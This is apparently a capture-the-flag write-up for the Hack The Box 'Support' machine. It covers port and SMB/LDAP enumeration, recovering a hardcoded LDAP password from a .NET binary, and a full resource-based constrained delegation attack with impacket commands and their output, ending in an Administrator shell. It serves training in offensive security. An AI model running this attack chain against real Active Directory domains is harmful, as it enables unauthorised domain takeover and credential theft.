


# Support
## Enumeration
- `nmap`
```
└─$ nmap -p- -Pn 10.10.11.174 -T4                                                                                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 13:05 BST
Nmap scan report for 10.10.11.174 (10.10.11.174)
Host is up (0.094s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws

```
```
└─$ nmap -Pn -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sC -sV 10.10.11.174 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 13:11 BST
Nmap scan report for 10.10.11.174 (10.10.11.174)
Host is up (0.18s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-30 12:10:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -36s
| smb2-time: 
|   date: 2023-08-30T12:10:55
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.85 seconds

```
- `smb`
```
└─$ smbclient -N -L //10.10.11.174       

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.174 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
```
└─$ smbclient -N  //10.10.11.174/support-tools
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 18:01:06 2022
  ..                                  D        0  Sat May 28 12:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 12:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 12:19:55 2022
  putty.exe                           A  1273576  Sat May 28 12:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 12:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 18:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 12:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 12:19:43 2022

                4026367 blocks of size 4096. 968923 blocks available

```
- `ldapsearch`
```
└─$ ldapsearch -H ldap://support.htb -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=support,DC=htb
namingcontexts: CN=Configuration,DC=support,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=support,DC=htb
namingcontexts: DC=DomainDnsZones,DC=support,DC=htb
namingcontexts: DC=ForestDnsZones,DC=support,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
```
└─$ ldapsearch -H ldap://support.htb -x -b "DC=support,DC=htb"
# extended LDIF
#
# LDAPv3
# base <DC=support,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5A, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4f7c

# numResponses: 1

```
## Foothold/User
- `UserInfo.exe.zip`
  - Let's reverse it using `dnspy`
```
└─$ file UserInfo.exe/UserInfo.exe
UserInfo.exe/UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

- We have interesting classes `LdapQuery` and `Protected`


- `LdapQuery()` retrieves password from `Protected` class
  - We now have username `support\ldap`
```
public LdapQuery()
{
	string password = Protected.getPassword();
	this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
	this.entry.AuthenticationType = AuthenticationTypes.Secure;
	this.ds = new DirectorySearcher(this.entry);
}
```
- `Protected` class
```
internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
```
- We can either decrypt it ourselves
  - Or run binary in `dnspy` with a breakpoint and make it decrypt password for us
  - We could also intercept packets via `Wireshark`
  - Let's find the arguments it needs



- Set breakpoint right before the connection to `ldap` server
  - And run with arguments


- Now we have our password for `support\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`


- Let's check the creds via `crackmapexec`

```
└─$ crackmapexec smb support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         support.htb     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         support.htb     445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

- We can run:
  - `ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"`
  - `ldapdomaindump -u 'support.htb\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldapdump.support.htb`
  - `bloodhound-python -c all -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174 --zip`
  - I used `bloodhound` and `ldapdomaindump` (since some fields were not visible in `bloodhound`)
    - `ldapdomaindump` shows `info` field with potential creds
    - `support:Ironside47pleasure40Watchful`




- We have creds for `support` user
```
└─$ crackmapexec smb support.htb -u 'support' -p 'Ironside47pleasure40Watchful'                                           
SMB         support.htb     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         support.htb     445    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
```

- Moreover `support` has `GenericAll` rights over `DC.support.htb` and is a `MemberOf` -> `REMOTE MANAGEMENT USERS`
  - We can `evil-winrm`


## Root/Domain Admin
- `support` has `GenericAll` rights over `DC.support.htb`
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#genericall-genericwrite-write-on-computer-user
  - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericall-genericwrite-write-on-computer
  - https://www.thehacker.recipes/ad/movement/dacl
  - https://orange-cyberdefense.github.io/ocd-mindmaps/
- We can perform [RBCD](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)
  - We can either do it from `Windows` by uploading required tools (`PowerMad`, `PowerSploit`, `Rubeus`) or from `Linux` using `impacket` and other tools
  - I performed attack from `Linux`, you can check [0xdf](https://0xdf.gitlab.io/2022/12/17/htb-support.html#get-domain-tgt) for `Windows` 
- Now we need to:
  - Create a New Computer
    - `impacket-addcomputer -computer-name 'FAKEPC$' -computer-pass 'P@ssw0rd123' -dc-ip 10.10.11.174 support.htb/support`
  - Configure the DC to trust new computer to make authorization decisions on it’s behalf
    - `impacket-rbcd -delegate-to 'DC$' -delegate-from 'FAKEPC$' -action 'write' -dc-ip 10.10.11.174 'support.htb'/'support'`
  - Ask for a `TGT` for the created computer account, followed by a `S4U2Self` request to get a forwardable `TGS` ticket, and then a `S4U2Proxy` request to get a valid TGS ticket for a specific `SPN` on the targeted computer
    - `getST.py -spn cifs/DC01.inlanefreight.local -impersonate Administrator -dc-ip 10.129.205.35 inlanefreight.local/HACKTHEBOX:Hackthebox123+\!`
    - `impacket-getST -spn 'cifs/DC.support.htb' -impersonate Administrator -dc-ip 10.10.11.174 'support.htb'/'FAKEPC$'`
  - Add the Ticket to KRB5CCNAME
    - `export KRB5CCNAME=./Administrator.ccache`
  - Connect as Administrator
    - `impacket-psexec -k -no-pass dc.support.htb`
    - Make sure to configure `/etc/hosts` with the target IP and the domain name `dc.support.htb`

```
└─$ impacket-addcomputer -computer-name 'FAKEPC$' -computer-pass 'P@ssw0rd123' -dc-ip 10.10.11.174 'support.htb/support'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Successfully added machine account FAKEPC$ with password P@ssw0rd123.
```
```
└─$ impacket-rbcd -delegate-to 'DC$' -delegate-from 'FAKEPC$' -action 'write' -dc-ip 10.10.11.174 'support.htb'/'support'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] No credentials supplied, supply password
Password:
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FAKEPC$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FAKEPC$      (S-1-5-21-1677581083-3380853377-188903654-5101)
```
```
└─$ impacket-getST -spn 'cifs/DC.support.htb' -impersonate Administrator -dc-ip 10.10.11.174 'support.htb'/'FAKEPC$' 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
```
└─$ export KRB5CCNAME=./Administrator.ccache
```
```
└─$ impacket-psexec -k -no-pass dc.support.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file EBxFiPIT.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service mhpF on dc.support.htb.....
[*] Starting service mhpF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```